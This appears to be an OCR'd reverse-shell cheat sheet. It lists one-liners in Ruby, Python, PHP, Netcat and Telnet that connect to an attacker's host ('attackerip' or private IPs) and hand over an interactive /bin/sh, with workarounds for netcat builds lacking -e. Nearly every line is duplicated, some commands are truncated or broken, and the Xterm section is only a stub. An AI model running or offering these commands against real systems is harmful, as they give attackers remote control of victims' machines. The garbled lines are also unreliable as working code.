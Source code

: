 `ruby -rsocket -e’f=TCPSocket.open(“attackerip”,1234).to_i;exec sprintf(“/bin/sh -i <&%d >&%d 2>&%d”,f,f,f)’`

`ruby -rsocket -e’f=TCPSocket.open(“attackerip”,1234).to_i;exec sprintf(“/bin/sh -i <&%d >&%d 2>&%d”,f,f,f)’`

## PYTHON:
`python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.0.0.1″,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’`

`python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.0.0.1″,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’`

## PHP:
This code assumes that the TCP connection uses file descriptor 3.

`php -r ‘$sock=fsockopen(“10.0.0.1″,1234);exec(“/bin/sh -i <&3 >&3 2>&3″);’`

`php -r ‘$sock=fsockopen(“10.0.0.1″,1234);exec(“/bin/sh -i <&3 >&3 2>&3″);’`

## NETCAT:
Other possible Netcat reverse shells, depending on the Netcat version and compilation flags:

`nc -e /bin/sh attackerip 4444`

`nc -e /bin/sh 192.168.37.10 443`

If the -e option is disabled, try this

`mknod backpipe p && nc 192.168.23.10 443 0<backpipe | /bin/bash 1>backpipe`

`mknod backpipe p && nc attackerip 8080 0<backpipe | /bin/bash 1>backpipe`

`/bin/sh | nc attackerip 4444`

`/bin/sh | nc 192.168.23.10 443`

`rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/`

`rm -f /tmp/p; mknod /tmp/p p && nc 192.168.23.10 444 0/tmp/`

If you have the wrong version of netcat installed, try

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.23.10 >/tmp/f`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

## TELNET:
If netcat is not available or /dev/tcp

`mknod backpipe p && telnet attackerip 8080 0<backpipe | /bin/bash 1>backpipe`

`mknod backpipe p && telnet attackerip 8080 0<backpipe | /bin/bash 1>backpipe`

## XTERM:
Xterm is the best..
